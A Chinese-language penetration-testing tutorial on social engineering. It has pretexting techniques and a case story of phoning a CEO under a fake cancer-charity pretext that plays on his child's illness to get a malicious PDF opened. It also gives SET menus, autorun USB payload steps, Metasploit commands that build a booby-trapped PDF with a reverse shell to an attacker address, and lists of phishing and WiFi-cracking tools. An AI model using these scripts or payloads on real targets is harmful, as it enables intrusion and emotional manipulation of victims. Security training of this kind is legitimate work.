# 社会工程学

## 1 概述

社会工程学（Social Engineering）是一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段。
社会工程学攻击在近年来的一些网络入侵事件中起到了很大的作用，对企业信息安全有很大的威胁性。


社会工程学的经典技术：

```
一．  直接索取：直接向目标人员索取所需信息

二．  个人冒充： 
1. 重要人物冒充 — 假装是部门的高级主管，要求工作人员提供所需信息
2. 求助职员冒充 — 假装是需要帮助的职员，请求工作人员帮助解决网络问题，借以获得所需信息
3. 技术支持冒充 — 假装是正在处理网络问题的技术支持人员，要求获得所需信息以解决问题

三．  反向社会工程
定义： 迫使目标人员反过来向攻击者求助的手段
步骤： 
破坏 (Sabotage) — 对目标系统获得简单权限后，留下错误信息，使用户注意到信息，并尝试获得帮助
推销 (Marketing) — 利用推销确保用户能够向攻击者求助，比如冒充是系统维护公司，或者在错误信息 里留下求助电话号码
支持 (Support) — 攻击者帮助用户解决系统问题，在用户不察觉的情况下，并进一步获得所需信息

四．  邮件利用
木马植入：在欺骗性信件内加入木马或病毒
群发诱导：欺骗接收者将邮件群发给所有朋友和同事
```


社会工程学的一些思考：

```
人与人的交互分为近身与远程
社工技巧:
面对面：
     衣着  手势  面部表情  动作
电话：
     语气  
邮件：
	 措辞
```


人性的弱点或许用佛家的话语来概述：    

```
贪嗔痴出处于佛教，三毒，又称三垢、三火。此三毒残害身心，使人沉沦于生死轮回，为恶之根源，故又称三不善根。
（1）贪，对顺的境界起贪爱，非得到不可，否则，心不甘，情不愿。
（2）嗔，对逆的境界生嗔恨，没称心如意就发脾气，不理智，意气用事。
（3）痴，不明白事理，是非不明，善恶不分，颠倒妄取，起诸邪行。
```


## 2 案例

### 2.1 老外的故事--自负的CEO

我与一位自负的CEO的交锋经历还是比较有趣的，因为那位CEO认为自己绝对不可能被任何社会工程，理由有两个：

```
           第一，生活中他不常使用科技类产品；
           第二，他天资聪颖，完全能够抵抗他所谓的“愚蠢的游戏”
```


**搜集信息**

依照惯例由开始，通过网络资源和其他工具（比如Maltego）调查该公司。
通过这种方式我获得了很多信息，比如服务器位置、IP地址、地址、电话号码、公司地址、邮件服务器、员工的名字和头衔等。
把这些信息制成文档以备之后使用。地址的结构十分重要，在调查他们的网站时，我发现其地址的结构是“名字.姓氏@公司名.com”。
我没能找到CEO的地址，但网站上的许多文章都提到了他的名字和头衔。这些是普通的、不了解详情的人员都可以获取的信息。
尝试一下Charles的昵称Chuck（恰克），于是试了试“chuck.jones@公司名.com”，竟然成功了！我获得了经过验证的邮件地址。现在我要验证一下这个邮箱是属于CEO的，而不是与他同名的某个家伙。

公司域名范围内的文件进行转换，大量的文件映入我的眼帘。Maltego通过转换插件不断地提供文件名，许多文件包含元数据，其中包括了日期、创建者和其他的细节信息。通过运行Maltego的元数据转换功能，我发现其中很多文件都是由“Chuck Jones”创建的，文件中的许多内容都暗示他就是CEO。
这正是我想证实的，但在浏览的过程中，一个特殊的文件引起了我的注意——InvoiceApril.xls。这是当地一家银行开具的关于某个营销项目的发票，他参与了该项目，其中有银行的名称、日期以及资金数额，但是缺少具体的项目名称信息。

```
“你好，我是某某公司的汤姆。我在整理账本，发现其中夹了一张4月份的面额为3500美元的赞助发票。项目名称没有写，你能告诉我这是什么活动的发票吗？”
“当然可以，汤姆，”伴随着键盘的敲击声她说，“我查到这是银行儿童癌症基金会发起的年度活动，贵公司是银牌赞助商。”
“非常感谢。我是新来的，非常感谢您的帮助。再见。”
```

我在网站上找到一些关于筹款活动的文章，以及许多公司为癌症治疗研究出资赞助的报道。另外，我对CEO做了更深入的调查并收获良多，我发现了他父母的名字、他姊妹的名字、他放在Facebook上的孩子的照片、他住在父母附近时去过的教堂、他对喜爱的餐厅的评价、他喜欢的球队、他大儿子喜欢的球队、他读的大学及他孩子上的学校等。
我想知道为什么公司要捐款给儿童癌症基金会。尽管利用他人的感情是许多恶意社会工程人员的所为，但我意识到可能自己也不得不这么做，因为我想知道是否是因为他某个儿子是癌症患者他才加入基金会的。我打了个电话给公司市场部的经理。

```
“你好，我是XYZ的汤姆。受本镇第一国家银行的委托，负责联系4月份儿童癌症基金会的出席者，能耽误您一点时间做个反馈调查吗？”
“苏，我看到你们是4月份活动的银牌赞助商。你觉得就宣传结果而言这笔赞助费花得值得吗？”
“好的，我记下来了。每年？是的，我看到你们每年都会这么做。个人想了解一下，有那么多基金会，为什么选择了我们？”
“噢，我很抱歉。请问是他的孩子吗？”
```


**制定计划**

我知道CEO来自纽约，喜欢一家名叫多明戈的餐厅，并且经常带着孩子看大都会的比赛，然后去多明戈餐厅吃饭。
他给餐厅写了评价，并且列举了最喜欢的三道菜。我从他的Facebook中了解到，目前他还是和父母住得很近，而且经常过去探望。
我计划伪装成癌症研究资金的募集人员，宣称在为三州地区筹款，捐款的人将有机会抽奖，奖品是两张大都会比赛的门票和一张餐厅的优惠券，可从三家餐厅中任选一家，多明戈餐厅就是其中之一。
我会假装自己来自纽约地区，但是工作时间不长，以防他提到一些我不知道的事情。
我的最终目标是让他接收一个包含恶意代码的PDF文件，该代码能够让我反向入侵他的计算机。但如果他没有使用能让我成功入侵的Adobe软件版本，我会接着说服他下载一个zip文件，并执行其中带有恶意文件的EXE安装程序。
为了成功伪装，我针对通话内容进行了一番练习，测试了PDF和EXE文件，并且打开谷歌地图找到了多明戈餐厅的位置以备通话中可能谈到。准备好用来接收受害者反馈信息的电脑后，一切工作准备就绪。


**开启对话**

```
”你好，请问查尔斯·琼斯先生在吗？”
“请稍等。”电话那头的声音有些疲惫，并且该人马上为我转接。
“你好，我是恰克。”
“你好，琼斯先生，我是美国癌症研究会的托尼。我们正在进行一项年度资金募集活动，筹得的资金将用于支持癌症研究，目前不管男女老幼都在饱受癌症的折磨。”
“请叫我恰克。”他打断了我。
```

这是一个好兆头，因为他并没有以现在很忙等借口挂断我的电话，并且在对话中融入了个人色彩。

```
我继续说道：“恰克，谢谢你。我们正在进行一项募款活动，联系的是原先捐过款的单位，这次是50～150美元的小额捐款。为此，我们为捐款的好心人设置了包含两项大奖的抽奖机会，抽中的话会赢得两张纽约大都会比赛的门票以及一顿免费的双人晚餐，有三家餐厅可供选择。本次抽奖一共会产生5位幸运者。
“大都会比赛，真的？”
“是的。也许你对大都会的比赛不感兴趣，但餐厅还是非常棒的。”
“不，不，我喜欢大都会，我会那么问是因为我太高兴了。”
“好的，请考虑一下。你不仅能帮助癌症研究，还有机会观看精彩的比赛，而且还能在莫顿、巴塞尔和多明戈三家餐厅中选择一家免费就餐。”
“多明戈！真的？我喜欢这家餐厅。”
“哈，那太好了。你知道我前几天第一次去那，那儿的蘑菇鸡肉真是棒极了！”这是他第三大爱的菜。
“哦，那不算什么，你应该尝尝法式菠萝，那是那家餐厅最棒的菜，我每次去都点它。”
“我周末会再去那，一定要试试。谢谢你的推荐。现在时间也不早了，我不是来要钱的，也不能从电话里拿走钱。我会发一个PDF文件给你，你可以看看，如果感兴趣的话，填一下表格，然后随支票一起发过来就可以了。”
“好啊，发过来吧。”
“好的，还有几个问题，你的邮箱地址是？”
“chuck.jones@公司名.com。”
“如果可以的话，请打开PDF阅读器，单击‘帮助’菜单上的‘关于’，然后告诉我版本号。”
“稍等，版本是8.04。”
“很好，我可不想发一份你打不开的文件。稍等不要挂，我现在就发过去。好了，发过去了。”
“好的，谢谢。真希望我是幸运儿，我太喜欢那家餐厅了。”
“我知道，那儿的菜的确不错。在挂电话之前，你能检查一下邮箱，看看邮件是否收到了吗？”
“好的，我5分钟后就要注销了，不过还能查看。是的，收到了。”当听到双击的声音，我开始检查运行于我的BackTrack电脑上的恶意负载侦听程序Meterpreter，它正在响应。我屏住呼吸（这部分从来不会无聊），砰地一声命令行界面出现了。Meterpreter脚本的属主信息改变了，类似于Explorer.exe。

恰克嚷道：“啊，我黑屏了，不能动了。”

“真的吗？真是奇怪了。让我检查一下。”我真正查看的是我是否能访问他的硬盘，并且立刻上传反向命令行，这在他关机重启后还能运行。我说：“很抱歉，我不知道怎么会这样。你能再等我几分钟吗？”
```


### 2.2 国内案例--护网案例

空缺

### 2.3  国内案例----诺基亚渗透工程师

空缺


## 3 经典版解决方案

### 3.1 SET工具包

#### 3.1.1 SET简介

社会工程学工具包（SET）是一个开源的、Python驱动的社会工程学渗透测试工具。
这套工具包由David Kenned设计，而且已经成为业界部署实施社会工程学攻击的标准。
SET利用人们的好奇心、信任、贪婪及一些愚蠢的错误，攻击人们自身存在的弱点。
使用SET可以传递攻击载荷到目标系统，收集目标系统数据，创建持久后门，进行中间人攻击等。

启动SET。在终端执行如下所示的命令：

```
# setoolkit
```



```
   1) Social-Engineering Attacks
       1) Spear-Phishing Attack Vectors
           1) Perform a Mass Email Attack
           2) Create a FileFormat Payload
           3) Create a Social-Engineering Template       
       2) Website Attack Vectors
           1) Java Applet Attack Method
           2) Metasploit Browser Exploit Method
           3) Credential Harvester Attack Method
           4) Tabnabbing Attack Method
           5) Web Jacking Attack Method
           6) Multi-Attack Web Method
           7) HTA Attack Method       
       3) Infectious Media Generator
           1) File-Format Exploits
           2) Standard Metasploit Executable       
       4) Create a Payload and Listener
           1) Windows Shell Reverse_TCP               Spawn a command shell on victim and send back to attacker
           2) Windows Reverse_TCP Meterpreter         Spawn a meterpreter shell on victim and send back to attacker
           3) Windows Reverse_TCP VNC DLL             Spawn a VNC server on victim and send back to attacker
           4) Windows Shell Reverse_TCP X64           Windows X64 Command Shell, Reverse TCP Inline
           5) Windows Meterpreter Reverse_TCP X64     Connect back to the attacker (Windows x64), Meterpreter
           6) Windows Meterpreter Egress Buster       Spawn a meterpreter shell and find a port home via multiple ports
           7) Windows Meterpreter Reverse HTTPS       Tunnel communication over HTTP using SSL and use Meterpreter
           8) Windows Meterpreter Reverse DNS         Use a hostname instead of an IP address and use Reverse Meterpreter
           9) Download/Run your Own Executable        Downloads an executable and runs it             
       5) Mass Mailer Attack
            1.  E-Mail Attack Single Email Address
            2.  E-Mail Attack Mass Mailer       
       6) Arduino-Based Attack Vector
           1) Powershell HTTP GET MSF Payload
           2) WSCRIPT HTTP GET MSF Payload
           3) Powershell based Reverse Shell Payload
           4) Internet Explorer/FireFox Beef Jack Payload
           5) Go to malicious java site and accept applet Payload
           6) Gnome wget Download Payload
           7) Binary 2 Teensy Attack (Deploy MSF payloads)
           8) SDCard 2 Teensy Attack (Deploy Any EXE)
           9) SDCard 2 Teensy Attack (Deploy on OSX)
          10) X10 Arduino Sniffer PDE and Libraries
          11) X10 Arduino Jammer PDE and Libraries
          12) Powershell Direct ShellCode Teensy Attack
          13) Peensy Multi Attack Dip Switch + SDCard Attack
          14) HID Msbuild compile to memory Shellcode Attack    
       7) Wireless Access Point Attack Vector
           1) Start the SET Wireless Attack Vector Access Point
           2) Stop the SET Wireless Attack Vector Access Point
       8) QRCode Generator Attack Vector
           <无分支选项>
       9) Powershell Attack Vectors
           1) Powershell Alphanumeric Shellcode Injector
           2) Powershell Reverse Shell
           3) Powershell Bind Shell
           4) Powershell Dump SAM Database
      10) Third Party Modules
          1. RATTE Java Applet Attack (Remote Administration Tool Tommy Edition) - Read the readme/RATTE_README.txt first
          2. RATTE (Remote Administration Tool Tommy Edition) Create Payload only. Read the readme/RATTE-Readme.txt first
          3. Google Analytics Attack by @ZonkSec

   2) Penetration Testing (Fast-Track)
       1) Microsoft SQL Bruter
       2) Custom Exploits
       3) SCCM Attack Vector
       4) Dell DRAC/Chassis Default Checker
       5) RID_ENUM - User Enumeration Attack
       6) PSEXEC Powershell Injection

   3) Third Party Modules
      1. RATTE Java Applet Attack (Remote Administration Tool Tommy Edition) - Read the readme/RATTE_README.txt first
      2. RATTE (Remote Administration Tool Tommy Edition) Create Payload only. Read the readme/RATTE-Readme.txt first
      3. Google Analytics Attack by @ZonkSec
  
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```

#### 3.1.2 Spear-Phishing Attack

```
1) Spear-Phishing Attack Vectors
	1) Perform a Mass Email Attack
	##后续按照向导填入相关内容即可。	
```




#### 3.1.3 Website Attack

```
1) Social-Engineering Attacks
	2) Website Attack Vectors
		1) Java Applet Attack Method
			1) Web Templates
	##后续按照向导进行配置后，找台Windows触发URL
```



#### 3.1.4 QRCode

```
1) Social-Engineering Attacks
	8) QRCode Generator Attack Vector
	
```



在路径/root/.set/reports中存放的二维码可通过https://uutool.cn/qrcode-decode/在线解码校验。


#### 3.1.5 Infectious Media Generator  

```
1) Social-Engineering Attacks
	3) Infectious Media Generator
		1) File-Format Exploits
		set:payloads>17
		set:payloads>5
		set:payloads> Port to connect back on [443]:4444
进入到/root/.set/autorun将autorun.inf及template.pdf拷贝至U盘或刻录光盘
```



在没有其他阻力(杀软、PDF软件版本的干扰下，则可以直接上线，但是在win10上大概率无法成功，win7问题不大）本质是利用自动运行



通过metasploit也同样可生成恶意文件。

```
use exploit/windows/fileformat/adobe_cooltype_sing
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.20
set lport 4444
set filename 重要通知.pdf
run
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.20
set lport 4444
exploit
待电脑打开恶意文件后，将会传回meterpreter
```





### 3.2 blackeye

```
Usage: 
git clone https://github.com/thelinuxchoice/blackeye
cd blackeye
bash blackeye.sh
```






### 3.3 Maltego

Maltego是一个交互式数据挖掘工具，它为链接分析呈现有向图。
该工具用于在线调查，以发现互联网上各种来源的信息片段之间的关系。


## 4 时尚版解决方案

## 4.1 钓鱼解决方案A

URLCrazy是一个基于Ruby的工具,允许您生成和测试域拼写错误和变体,以检测和执行拼写错误,URL劫持,网络钓鱼和企业间谍活动。

EwoMail是基于Linux的开源邮件服务器，支持一键搭建，集成了众多优秀稳定的组件，是一个快速部署、简单高效、安全稳定的邮件解决方案，支持电脑和手机的客户端，适合个人或邮箱功能需求少的企业。

Zoho提供50多款企业SaaS软件及云计算应用,提供免费5用户的邮箱服务。


## 4.2 钓鱼解决方案B

Gophish是一个为企业和渗透测试人员设计的开源钓鱼工具包。它提供了快速轻松地设置和执行网络钓鱼服务和安全意识培训的能力。(https://github.com/gophish/gophish)

邮件推送（DirectMail）是款简单高效的电子邮件群发服务

HTTrack用于整站抓取做镜像或者仿站


## 4.3 无线网络

### 4.3.1 WiFi密码钥匙

假如企业员工把WiFi口令分享至类似于WiFi万能钥匙类的软件中，则可以直接秒连接至企业WiFi。


### 4.3.2 WiFi破解

使用fern WIFI Cracker进行破解。



同样可以通过aircrack-ng+hashcat的方式进行GPU破解，出于条件限制不在演示。


## 4.4 社交信息

4.4.1 人才招聘


4.4.2 办公区海报


4.4.3 供应链相关


## 5 更多思考

从本质来讲，社会工程学攻击可以拆分成“剧本+技术方案”。某些角度来讲，与电诈类的犯罪颇有相似之处。

而社会工程学的目的是获得渗透测试中的突破口。

### 5.1 禁忌

在攻防演练的场景中，以下方式请勿使用：

```
1.伪装成公权力机关
2.针对企业真实个人的八卦信息
```


### 5.2 攻击者还能有哪些可能性？

```
一起想想吧
```


### 5.3 站在防守方，应该如何对抗？

```
一起想想吧
```

